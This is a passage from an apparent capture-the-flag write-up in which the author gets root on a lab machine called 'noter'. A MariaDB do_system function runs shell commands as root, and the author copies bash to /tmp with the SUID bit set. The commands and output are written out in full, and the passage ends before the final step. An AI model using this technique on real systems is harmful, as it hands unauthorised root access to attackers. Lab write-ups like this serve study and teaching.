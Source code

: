     
    MariaDB [mysql]> select do_system('id > /dev/shm/0xdf; chmod 777 /dev/shm/0xdf');
    +----------------------------------------------------------+
    | do_system('id > /dev/shm/0xdf; chmod 777 /dev/shm/0xdf') |
    +----------------------------------------------------------+
    |                                                        0 |
    +----------------------------------------------------------+
    1 row in set (0.005 sec)
    

The output in `mysql` isn’t useful, but the file is there, and it was run by
root:

    
    
    svc@noter:/dev/shm$ ls -l 0xdf 
    -rwxrwxrwx 1 root root 39 Mar 30 21:08 0xdf
    svc@noter:/dev/shm$ cat 0xdf 
    uid=0(root) gid=0(root) groups=0(root)
    

### Shell

To get a shell, I’ll drop back into `mysql` and copy `bash` and change it to
be SUID:

    
    
    MariaDB [mysql]> select do_system('cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf');
    +-----------------------------------------------------------+
    | do_system('cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf') |
    +-----------------------------------------------------------+
    |                                                         0 |
    +-----------------------------------------------------------+
    1 row in set (0.006 sec)
    

I’ll need to find somewhere to work that’s not `/dev/shm`, as that’s mounted
`nosuid`:

    
    
    svc@noter:/dev/shm$ mount | grep shm
    tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
    

`/tmp` will work fine.

Because of how `bash` drops privs, running this will return a non-root shell:

    
    
    svc@noter:/dev/shm$ /tmp/0xdf
    0xdf-5.0$
    

Exiting from that and re-running with `-p` will give root:

    
    